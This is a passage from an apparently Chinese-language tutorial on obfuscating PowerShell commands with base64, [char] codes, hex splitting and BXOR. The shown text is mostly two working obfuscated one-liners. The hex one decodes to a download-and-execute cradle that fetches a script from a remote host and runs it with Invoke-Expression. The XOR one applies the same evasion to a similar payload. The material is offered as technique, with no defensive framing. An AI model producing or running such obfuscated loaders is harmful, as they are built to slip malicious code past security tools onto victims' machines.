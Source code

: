 #### 6.1 base64

加密 payload

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwPbt78shKfficYPfibJ8ibbJV5k0ibvlhKog2DnLRbgftAgmg5cEVFJLJIA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwoISzwu5WcP59eoDh0KSqW3deSfrwwtJOSlXj2xIA7lUtO9ySu9Wjrg/640?wx_fmt=png)

这里 powershell 的 base64 加密解密和咱们使用编码工具的 base64 加解密有所不同，有兴趣的朋友可以了解下。

#### 6.2 ASCII

使用 [char]xx 代替字符

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImw8iashYg267ia2RqrxD34iaJg91ceVs4GFB39IXlvOaWLpNB3tL6RlonUw/640?wx_fmt=png)

#### 6.3 进制 + BXOR

##### 进制

十六进制 (工具编码)

| 

-jOiN ('49!45V58k20{28Y4en65-77!2dY4fV62Y6an65k63V74Y20Y28V5b-74V79k70!65-5d!20-28L22L4e!65k74Y2e{57k65n62n43Y6cL69n65{6e-74!22V29Y29{29L2eY44!6fV77Y6en6cL6fV61L64-53Y74Y72!69n6eV67V28!22k68V74k74n70V3aY2fY2fL31V39V32-2eV31-36Y38L2e-31k31-38V2e{31!37n34Y3a-38L30{30{30{2f{79!61n75{6ek63n6fn64{65-2ek74Y78Y74n22L29'.SPlIt('LV-Yk{!n') |FOreACh {( [CHAr] ( [coNVERt]::tOINT16(($_.tostRING()),16 ) ))} ) |InvokE-EXprESSIOn

 |

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwvSRNHasq1Xr2fpziaYV1ichoTAZ9BLYkbcZaic7hJdWMaEYTYqJibqObCw/640?wx_fmt=png)

##### BXOR  

工具编码结果

| 

.($EnV:COmSpeC[4,15,25]-joIn'')([StrING]::JOIn('' ,('90f86I75>51j59I93T118f100k62I92h113I121j118h112j103j51I59y72h103h106k99>118k78T51>59x49x93y118I103h61k68y118T113I80I127_122j118j125y103_49x58I58k58T61j87_124k100f125f127x124>114_119_64f103y97_122f125I116y59I49_123y103_103j99h41k60h60y34f42j33k61k34f37_43k61y34h34_43f61h34T36I39x41h43k35x35T35f60T106h114k102x125>112>124_119I118_61k103>107x103T49x58' -SpLIt 'H' -spLit 'K'-SPLIT'x' -SpliT'j' -SpliT'>'-SPLiT'I' -sPlit 'y' -spLit'T'-SPLiT '_' -spLit'f'|% {[chaR]( $_-BxoR 0x13  )}) ))

 |

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwWicTxoLhYorIGRhib2k6GHsN9StGt82ib2vrBgVnnicib8s8ch8rL8uP9LQ/640?wx_fmt=png)

#### 6.4 SecureString
